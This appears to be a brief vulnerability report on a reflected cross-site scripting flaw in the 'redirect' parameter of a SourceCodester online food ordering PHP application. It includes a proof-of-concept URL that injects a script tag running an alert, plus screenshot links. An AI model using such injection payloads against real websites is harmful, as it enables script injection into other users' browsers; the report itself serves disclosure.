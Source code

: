 vendor：https://www.sourcecodester.com/

download link：https://www.sourcecodester.com/php/16022/online-food-ordering-system-v2-using-php8-and-mysql-free-source-code.html

Vulnerability trigger parameter: $redirect

The process of vulnerability discovery is as follows：
![image](https://user-images.githubusercontent.com/30823782/212480817-f964e25c-53b8-41c5-b925-459b0f4d4a69.png)
http://192.168.249.88/php-fos-db/login.php?redirect=%3C/script%3E%3Cscript%3Ealert(%27xss%27)%3C/script%3E
![image](https://user-images.githubusercontent.com/30823782/212480832-a32ef186-c320-4835-a3f8-24074eb4adca.png)

